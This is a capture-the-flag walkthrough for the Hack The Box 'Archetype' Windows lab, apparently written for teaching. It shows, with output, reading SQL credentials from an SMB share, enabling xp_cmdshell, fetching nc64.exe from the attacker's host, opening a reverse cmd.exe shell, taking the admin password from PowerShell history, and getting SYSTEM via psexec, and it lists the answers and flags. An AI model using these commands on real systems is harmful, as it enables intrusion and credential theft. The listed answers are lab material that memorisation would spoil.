

# Archetype (Windows)

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Which TCP port is hosting a database server?

```sh
$ nmap -A -T4 10.129.95.187
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 10:22 CET
Nmap scan report for 10.129.95.187
Host is up (0.086s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
135/tcp  open  msrpc       Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp  open              Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s    Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-03T09:21:36
|_Not valid after:  2054-03-03T09:21:36
|_ssl-date: 2024-03-03T09:22:42+00:00; 0s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 4h00m01s, median: 0s
| smb2-time: 
|   date: 2024-03-03T09:22:33
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-03T01:22:34-08:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.76 seconds
```

> 1433

#### 2. What is the name of the non-Administrative share available over SMB?

`-N`: No password
`-L`: This option allows you to look at what services are available on a server

```sh
$ smbclient -L 10.129.95.187 -N          
Can't load /usr/local/etc/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

> backups

#### 3. What is the password identified in the file on the SMB share?

```sh
$ smbclient \\\\10.129.95.187\\backups -N
Can't load /usr/local/etc/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		5056511 blocks of size 4096. 2609625 blocks available
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (2,3 KiloBytes/sec) (average 2,3 KiloBytes/sec)
```

```sh
$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

> M3g4c0rp123

#### 4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

> mssqlclient.py

#### 5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

```sh
$ mssqlclient.py sql_svc@10.129.95.187 -windows-auth          
Impacket v0.11.0 - Copyright 2023 Fortra

Password: M3g4c0rp123
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)> help

	...
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
	... 
```	

> xp_cmdshell

#### 6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?

> winpeas

#### 7. What file contains the administrator's password?

[MSSQL Injection Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet):



Next, we need to execute following commands to activate `xp_cmdshell`:

```sh
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
``` 

And then we can run system commands:

```sh
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
output              
-----------------   
archetype\sql_svc   

NULL 
```

Next e will upload the [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) binary to the target machine and execute an interactive `cmd.exe` process on our listening port:

```sh
$ python3 -m http.server 8080
```

In other window:

```sh
$ nc -l 9001
```

Then from our MSSQL shell download the file:

```sh
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.15:8080/nc64.exe -outfile nc64.exe"
```

Next we need to get the reverse shell:

```sh
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.15 9001"
```

And we have it: 

```sh
$ nc -l 9001
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Downloads>
```

Next we need to escalate our priveleges, for that we will use [winpeas](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe):

```powershell
C:\Users\sql_svc\Downloads>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Users\sql_svc\Downloads>wget http://10.10.16.15:8080/winPEASx64.exe -outfile winPEASx64.exe
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

From the output:

```powershell
...
Analyzing Windows Files Files (limit 70)
    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    C:\Users\Default\NTUSER.DAT
    C:\Users\sql_svc\NTUSER.DAT
...
```

Read the file:

```sh
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

> ConsoleHost_history.txt

#### Submit user flag

```powershell
PS C:\Users\sql_svc\Downloads> type C:\Users\sql_svc\Desktop\user.txt
type C:\Users\sql_svc\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3
```

#### Submit root flag

Run `psexec.py` with `Administrator's` credentials:

```sh
$ psexec.py administrator@10.129.95.187 
Impacket v0.11.0 - Copyright 2023 Fortra

Password: MEGACORP_4dm1n!!
[*] Requesting shares on 10.129.95.187.....
[*] Found writable share ADMIN$
[*] Uploading file paaTtIVe.exe
[*] Opening SVCManager on 10.129.95.187.....
[*] Creating service OuNf on 10.129.95.187.....
[*] Starting service OuNf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```

## Final Flags

> `user`: 3e7b102e78218e935bf3f4951fec21a3
> `root`: b91ccec3305e98240082d4474b848528

*Created by [bu19akov](https://github.com/bu19akov)*